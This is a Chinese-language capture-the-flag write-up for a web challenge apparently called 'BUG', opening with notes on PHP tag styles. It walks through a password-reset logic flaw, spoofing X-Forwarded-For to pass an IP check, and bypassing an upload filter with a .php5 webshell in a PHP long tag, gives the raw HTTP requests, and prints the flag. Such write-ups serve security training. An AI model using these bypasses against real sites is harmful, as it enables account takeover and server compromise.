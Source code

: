 # BUG

> 逻辑漏洞,伪造源ip,文件上传绕过

## PHP四种标记方式

### <?php ?>

```
<?php 
    … 
?>
```

> 最常见的一种方式,也是官方推荐的方式,这种标签可以插入到HTML文档的任意位置

### 短标签

```
<?…?>
```

> 使用短标签前需要在php.ini中设置short_open_tag=on,默认是on状态

### 长标签

```
<script language="php">……</script>
```

> 这种方式写法有点像JavaScript,不过也是可以正常解析PHP代码

### asp标签

```
<％…％>
```

> 在PHP 3.0.4版后可用,需要在php.ini中设置asp_tags=on,默认是off

## 思路分析

> 打开有个登录框,还有一个注册和找回密码的地方,不存在sql注入,也没有目录信息,开始注册一个账号,注册admin用户,发现该用户已存在,注册一个其他的用户.登陆后有个manage页面无权限访问,修改密码处也不存在漏洞.发现cookie中的user字段是uid:username的md5值,伪造admin的user值,发现没啥用,无越权漏洞.回到找回密码处,这里容易存在逻辑漏洞,经测试,的确存在.修改掉了admin用户的密码,成功登陆.

> 登陆后,查看manage页面.然后提示ip不对,于是用X-Forwarded-For来绕过,访问后提示flag与/index.php?module=filemanage&do这个url有关,直接访问提示缺少action,因为是文件管理,想到upload.访问成功,是个文件上传界面.

> 文件名有限制,用php会报错,用php5绕过,内容直接用一句话内容,提示不是一个php文件,经过测试,使用php的长标签方式绕过

## payload

```
GET /index.php?module=admin HTTP/1.1
Host: 61.147.171.105:63721
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:63721/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; PHPSESSID=27a5120124aef0b538d7d5772a1505b1; user=4b9987ccafacb8d8fc08d22bbca797ba
X-Forwarded-For: 127.0.0.1
Connection: close
```

```
POST /index.php?module=filemanage&do=upload HTTP/1.1
Host: 61.147.171.105:63721
Content-Length: 218
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:63721
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypNLsdyIjo3LZhteC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:63721/index.php?module=filemanage&do=upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; PHPSESSID=27a5120124aef0b538d7d5772a1505b1; user=4b9987ccafacb8d8fc08d22bbca797ba
Connection: close

------WebKitFormBoundarypNLsdyIjo3LZhteC
Content-Disposition: form-data; name="upfile"; filename="shell.php5"
Content-Type: image/jpeg

<script language="php"></script>
```

## flag

> cyberpeace{6b743d7b37832bb1a093f682e6d2e06b}